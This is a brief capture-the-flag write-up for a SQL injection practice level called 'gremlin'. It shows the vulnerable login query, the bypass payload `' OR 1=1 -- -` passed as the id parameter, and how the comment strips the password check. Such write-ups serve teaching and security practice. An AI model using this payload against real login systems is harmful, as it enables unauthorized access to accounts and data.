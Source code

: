 ```yaml
---
custom_edit_url: null
pagination_next: null
pagination_prev: null
sidebar_position: 1
---
```


![1](https://github.com/Kunull/Write-ups/assets/110326359/b61527a1-dd8e-479b-b0e7-5cb6d58a8823)

We are provided with the SQL query:

```sql
SELECT id FROM prob_gremlin WHERE id='' AND pw=''
```

In order to make the result of this query `True`, we can provide the following URI:

```
?id=' OR 1=1 -- -
```

The resultant query then becomes:

```sql
SELECT id FROM prob_gremlin WHERE id='' OR 1=1 -- -' AND pw=''

-- Queried part
SELECT id FROM prob_gremlin WHERE id='' OR 1=1

-- Commented part
AND pw=''
```

Since 1=1 is always true, the result of the `OR` operation will always be `True`.

![2](https://github.com/Kunull/Write-ups/assets/110326359/5c172a9d-3333-45b6-bd48-edc0e2def822)
